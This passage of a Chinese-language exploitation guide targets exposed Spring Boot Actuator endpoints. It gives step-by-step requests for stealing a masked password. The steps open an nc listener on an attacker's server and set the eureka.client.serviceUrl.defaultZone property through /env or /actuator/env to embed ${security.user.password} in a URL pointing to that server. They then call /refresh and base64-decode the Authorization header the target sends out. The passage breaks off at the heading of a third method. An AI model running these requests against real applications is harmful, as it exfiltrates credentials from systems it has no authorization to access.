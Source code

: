 ```bash
nc -lvk 80
```

##### 步骤三： 设置 eureka.client.serviceUrl.defaultZone 属性

将下面 `http://value:${security.user.password}@your-vps-ip`  中的  `security.user.password` 换成自己想要获取的对应的星号 * 遮掩的属性名；

`your-vps-ip` 换成自己外网服务器的真实 ip 地址。

spring 1.x

```http
POST /env HTTP/1.1
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://value:${security.user.password}@your-vps-ip
```

spring 2.x

```http
POST /actuator/env HTTP/1.1
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip"}
```

##### 步骤四： 刷新配置

spring 1.x

```http
POST /refresh HTTP/1.1
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```http
POST /actuator/refresh HTTP/1.1
Content-Type: application/json

```

##### 步骤五： 解码属性值

正常的话，此时 nc 监听的服务器会收到目标发来的请求，其中包含类似如下 `Authorization` 头内容：

```http
Authorization: Basic dmFsdWU6MTIzNDU2
```

将其中的 `dmFsdWU6MTIzNDU2`部分使用 base64 解码，即可获得类似明文值 `value:123456`，其中的 `123456` 即是目标星号 * 脱敏前的属性值明文。

### 0x05：获取被星号脱敏的密码的明文 (方法三)

